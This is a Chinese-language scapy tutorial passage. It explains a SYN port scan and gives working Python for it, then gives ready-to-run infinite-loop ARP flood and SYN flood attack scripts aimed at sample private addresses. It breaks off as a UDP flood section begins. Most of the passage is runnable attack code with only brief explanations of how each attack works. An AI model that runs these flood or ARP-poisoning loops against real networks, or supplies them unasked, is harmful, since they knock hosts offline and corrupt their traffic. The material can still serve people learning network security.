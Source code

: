 ## 实用脚本

**实现nmap中的端口探测**：使用`TCP`协议发送一个`SYN`数据包到目标主机的每一个端口，以确定哪些端口是开放的。如果目标主机响应了一个`SYN/ACK`数据包，表示该端口是打开的，并且`Nmap`会发送一个`RST`数据包来关闭连接。如果目标主机没有响应或者响应一个`RST`数据包，表示该端口是关闭的。

```python
from scapy.all import *

dst_ip = "10.182.28.2"
start_port = 1
end_port = 65535

open_ports = []

for dst_port in range(start_port, end_port+1):
    tcp_syn_packet = IP(dst=dst_ip) / TCP(dport=dst_port, flags="S")
    response = sr1(tcp_syn_packet, timeout=0.01, verbose=0)

    if response is not None and response.haslayer(TCP) and response.getlayer(TCP).flags == 0x12:
        print(f"Port {dst_port} is open")
        open_ports.append(dst_port)
    else:
        print(f"Port {dst_port} is closed")

print(f"Open ports: {open_ports}")
```

**ARP 洪泛攻击**：`ARP` 洪泛攻击是一种基于 `ARP` 协议的攻击方式，它的原理是发送大量虚假的 `ARP` 请求，从而让目标设备的 `ARP` 缓存表被填满或被污染，导致目标设备无法正常进行网络通信。使用 `scapy` 实现 `ARP` 洪泛攻击的代码如下：

```python
# 构造 ARP 请求包
packet = Ether(dst='ff:ff:ff:ff:ff:ff') / ARP(op='who-has', hwsrc='00:11:22:33:44:55', psrc='192.168.1.1', pdst='192.168.1.100')

# 发送 ARP 请求包
while True:
    sendp(packet)
```

**SYN 洪泛攻击**：`SYN` 洪泛攻击是一种基于 `TCP` 协议的攻击方式，它的原理是发送大量的 `TCP SYN` 包，从而占用目标设备的资源或使其崩溃。使用 `scapy` 实现 SYN 洪泛攻击的代码如下：

```python
# 构造 TCP SYN 包
packet = IP(dst='192.168.1.100') / TCP(sport=1234, dport=80, flags='S')

# 发送 TCP SYN 包
while True:
    send(packet)
```

**UDP 洪泛攻击**：`UDP` 洪泛攻击是一种基于 `UDP` 协议的攻击方式，它的原理是发送大量的 `UDP` 包，从而占用目标设备的带宽或使其崩溃。使用 `scapy` 实现 `UDP` 洪泛攻击的代码如下：
